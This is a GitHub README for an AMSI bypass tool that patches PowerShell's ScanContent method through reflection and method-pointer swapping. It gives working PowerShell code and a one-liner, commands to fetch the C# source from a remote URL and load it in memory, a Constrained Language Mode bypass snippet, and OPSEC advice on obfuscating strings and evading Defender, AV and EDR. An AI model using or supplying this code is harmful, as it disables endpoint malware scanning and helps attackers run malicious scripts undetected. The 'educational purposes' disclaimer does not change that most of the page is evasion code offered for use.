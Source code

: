 # TrollAMSI
This new technique is called "Reflection with method swapping". Opens doors for other techniques such as ETW and CLM possibly(?).
Uses reflection to get a handle to the "ScanContent" method and updates it to point to a method we control.  

**Note: Technically speaking, PrepareMethod() in both the "raw powershell" and .cs versions should be called (especially for our method 'M') but works without it too**

## Benefits
- No P/Invoke or win32 API calls used such as VirtualProtect hence WAY more opsec safe
- No amsi.dll patching
  
## Usage 

### Raw Powershell
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)  
[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```
### Raw Powershell One-Liner
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1)
```

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on win defender, 2 AV and 1 EDR 
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - We can apply the same trick on CLM enforcement
   ```
          public static void Troll()
        {
            MethodInfo o = typeof(System.Management.Automation.Alignment).Assembly.GetType("System.Management.Automation.Security.SystemPolicy").GetMethod("GetS" + "ystemLoc" + "kdow" + "nPolicy", System.Reflection.BindingFlags.Public | System.Reflection.BindingFlags.Static);
            MethodInfo t = typeof("<Insert Class here>").GetMethod("M", BindingFlags.Static | BindingFlags.NonPublic);
            RuntimeHelpers.PrepareMethod(o.MethodHandle);
            RuntimeHelpers.PrepareMethod(t.MethodHandle);
            Marshal.Copy(new IntPtr[] { Marshal.ReadIntPtr(t.MethodHandle.Value + 8) }, 0, o.MethodHandle.Value + 8, 1);
        }
        private static int M() { return 0; }
  ```
  - maybe there's more?
## Credits
1. Matt Graeber original amsi bypass in 2016
2. https://github.com/calebstewart/bypass-clm


## Disclaimer
Should only be used for educational purposes!

